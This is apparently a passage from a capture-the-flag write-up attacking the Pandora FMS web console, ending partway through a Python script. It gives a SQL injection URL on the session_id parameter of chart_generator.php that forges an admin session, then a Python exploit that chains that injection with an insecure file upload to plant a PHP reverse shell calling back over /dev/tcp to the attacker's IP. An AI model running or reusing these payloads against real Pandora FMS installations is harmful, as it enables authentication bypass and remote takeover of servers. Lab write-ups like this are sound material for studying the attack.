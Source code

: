 Here are those session and there decoded values.

Copy admin cookie encode value from "id_session" column and replace "PHPSESSID" value with it using cookie editor and refresh pandora login page.

Or you could use some sql inject payload to set your session as admin without dumping table everytime using `/include/chart_generator.php` parameter `session_id` with sql injection payload.
```
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=1' union select 'NULL','NULL','id_usuario|s:5:"admin";'-- -
```

And the complete query looks like this
```sql
SELECT * FROM tsessions_php WHERE id_session='1' union select 'NULL','NULL','id_usuario|s:5:"admin";'-- -
```

### File Upload

And here we have admin panel with insecure file upload function

![](screenshots/pandora-file-upload.png)

If you intercept file upload request you will found upload location is `/var/www/pandora/pandora_console/images` that means `/pandora_console/images` from web server.


We have done so much and here is the python presentation of it
```py
import requests
import netifaces as ni

base_path = "http://127.0.0.1/pandora_console"
tun0_ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']
rev = f"<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/{tun0_ip}/4242 0>&1'\"); ?>"
s = requests.Session()
s.proxies = {"http": "socks5://127.0.0.1:4141"}
sqli = "/include/chart_generator.php?session_id=1' union select '1','2','id_usuario|s:5:\"admin\";' -- -"
sess = s.post(base_path + sqli)
if "Pandora FMS Graph ( - )" in sess.text:
    print("[ + ] Logged in!")
    file_ = {'file': ("shell.php", rev, 'application/x-php'),
             'umask': (None, None),
```